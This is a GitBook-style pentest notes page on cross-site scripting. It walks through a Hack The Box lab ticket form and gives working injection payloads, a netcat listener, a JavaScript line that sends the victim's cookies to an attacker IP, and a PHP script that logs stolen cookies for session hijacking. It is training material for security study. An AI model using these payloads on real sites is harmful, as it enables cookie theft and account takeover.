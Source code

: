 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# XSS

## Example

{% hint style="info" %}
The below example has been taken from the [Web Enumeration & Exploitation](https://academy.hackthebox.com/module/163/section/1544) of HTB's Attacking Enterprise Networks module.&#x20;
{% endhint %}

We have found a **ticket form** on `support.local.htb` (Figure 1).

<div align="left">

<figure><img src="../../../.gitbook/assets/xss_ticket_form.png" alt="" width="375"><figcaption><p>Figure 1: A form that can we can raise ticket to the support department.</p></figcaption></figure>

</div>

We can first **test** if it is vulnerable to XSS (Figure 2).

{% tabs %}
{% tab title="1. Payload" %}
```javascript
 "><script src=http://10.10.15.131:1337/test</script>
```
{% endtab %}

{% tab title="2. Listener" %}
```bash
nc -lvnp 1337
```
{% endtab %}
{% endtabs %}

<div align="left">

<figure><img src="../../../.gitbook/assets/xss_test.png" alt="" width="554"><figcaption><p>Figure 2: Testing XSS.</p></figcaption></figure>

</div>

Next, we will **steal the cookie** of the person who will process our ticket (Figure 3) by:

1. Creating a script (`index.php`) that will expand the stolen cookie.
2. Creating another script (`script.js`) that will steal the user's cookie, request `index.php` and pass it as a value to `index.php`.&#x20;
3. Passing a payload that will request `script.js`.

{% tabs %}
{% tab title="index.php" %}
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
```
{% endtab %}

{% tab title="script.js" %}
```javascript
new Image().src='http://10.10.15.131/index.php?c='+document.cookie
```
{% endtab %}

{% tab title="Python HTTP Server" %}
```bash
python3 -m http.server 80
```
{% endtab %}

{% tab title="Payload" %}
```javascript
"><script src=http://10.10.15.131/script.js></script>
```
{% endtab %}
{% endtabs %}

<figure><img src="../../../.gitbook/assets/xss_cookie.png" alt=""><figcaption><p>Figure 3: Snatching the support staff's cookie.</p></figcaption></figure>

Adding a new session cookie (Figure 4) and refreshing the page, gives us elevated access (Figure 5).

<div align="left">

<figure><img src="../../../.gitbook/assets/xss_creating_cookie.png" alt="" width="453"><figcaption><p>Figure 4: Creating a new session cookie.</p></figcaption></figure>

</div>

<div align="left">

<figure><img src="../../../.gitbook/assets/xss_dashboard_access.png" alt="" width="563"><figcaption><p>Figure 5: Refreshing the page gives us dashboard access.</p></figcaption></figure>

</div>
